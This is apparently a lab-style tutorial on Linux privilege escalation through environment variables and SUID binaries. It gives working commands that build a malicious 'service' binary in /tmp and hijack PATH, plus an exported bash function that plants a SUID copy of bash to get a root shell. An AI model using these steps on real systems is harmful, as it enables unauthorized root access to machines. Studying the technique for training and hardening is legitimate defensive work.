 Environment variables are variables that are available system-wide, and are inherited by all spot child processes and shells. 

Now there are a few ways to look at environment variables. One command is env

```shell
env
```

So, the goal is to change something in these environment variables to take advantage of something else.

You know the drill... find command:

```shell
find / -type -f -perm -04000 -ls 2>/dev/null
```

For, this one, we shall use the SUID-env file

So, we can see what this file has by using the strings command:

```shell
strings <path_of_file>
```

So, at the bottom, it shows service apache2 start. It knows about service from the PATH variable. Now, what if we change where the service is being called from, basically, make a malicious service file make it execute and escalate to root.

So, we can run the following command:

```shell
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

Now, compile service.c

```shell
gcc /tmp/service.c -o /tmp/service
```

Now, we have the malicious service sitting in /tmp. Now, we need to change our path.

```shell
export PATH=/tmp:$PATH
```

So, if you run the file again, you will be escalated to root as the malicious service is running first.

Lets say instead of saying service apache2 start, it gives an absolute path to service. How do we exploit this?

We can create a function: 

```shell
function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p;}
```

Then we can export the function by:

```shell
export -f /usr/sbin/service
```

So, when you give users permissions to change environment variables and suid permissions to sudo, this can happen.